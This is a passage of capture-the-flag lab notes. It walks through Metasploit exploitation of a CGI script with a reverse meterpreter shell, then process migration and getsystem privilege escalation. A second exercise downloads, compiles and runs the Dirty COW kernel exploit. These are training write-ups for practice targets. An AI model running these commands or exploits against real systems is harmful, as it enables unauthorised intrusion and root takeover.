     `msf6> use 0`

    `msf6> set RHOSTS 10.10.30.25`

    `msf6> set LHOST 10.4.5.126`

    `msf6> set TARGETURI /cgi-bin/elfwhacker.bat`

    `msf6> run`

5. Explore

    `meterpreter > cat flag1.txt` → success!

    `meterpreter > sysinfo` → x64 architecture, x86 meterpreter (tried below with x86, failed)

    `meterpreter > ps` to find x64 with 1 next to it

    `meterpreter > migrate 684` to migrate to x64 process

    `meterpreter > bg`

    `msf6> search suggest`

    `msf6> use 4`

    `msf6> set SESSION 1`

    `msf6> run`

    `[+] 10.10.30.25 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.` → but failed

    `msf6> sessions 1`

    `meterpreter > getsystem`

    `...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).` → success!

## [Day 13] Special by John Hammond: Coal for Christmas [manual exploit]

1. Find open ports: `$ sudo nmap -A -T4 -v -oA nmap 10.10.157.137`
2. Connect to telnet: `$ telnet 10.10.157.137`
3. Find more informoation: `$ cat /etc/*release` & `$ uname -a`
4. Read the file: `$ cat cookies_and_milk.txt`
5. Find correct dirty cow (based on /etc/passwd), `nano dirty.c`, then copy the script and save
[https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
6. Compile the code: `$ grep gcc dirty.c` → `$ gcc -pthread dirty.c -o dirty -lcrypt`
7. Run the exploit `$ ./dirty`
8. Change user `$ su firefart`
9. Move to root: `firefart@christmas:/home/santa# cd /root`
10. Read the message: `# cat message_from_the_grinch.txt`
11. Make file: `# touch coal`
12. Get MD5: `# tree | md5sum` → success!

## [Day 14] Special by TheCyberMentor: Where's Rudolph? [OSINT]
